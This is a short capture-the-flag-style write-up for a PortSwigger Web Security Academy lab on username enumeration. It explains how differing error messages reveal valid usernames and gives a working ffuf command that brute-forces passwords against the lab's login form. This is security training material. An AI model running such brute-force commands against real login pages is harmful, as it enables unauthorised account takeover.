

# Username enumeration via different responses

**Lab Url**: [https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-different-responses](https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-different-responses)



## Objective

The lab is vulnerable to username enumeration and password brute-force attacks. To solve this lab, we must find a valid username and password and access the user's account page.

The username and password lists are provided in the lab description.

## Solution

The login page renders an `Invalid username` error if the username is invalid. We have to use the `enumerate_username.py` script to find a valid username.

After finding a valid `username` use the below script to extract `password`.

```bash
ffuf -X POST \
    -u https://YOUR-LAB-ID.web-security-academy.net/login \
    -d "username=YOUR-FOUND-USERNAME&password=FUZZ" \
    -w passwords.txt \
    -mc 302
```

Now log in with the retrieved username and password to solve the lab.


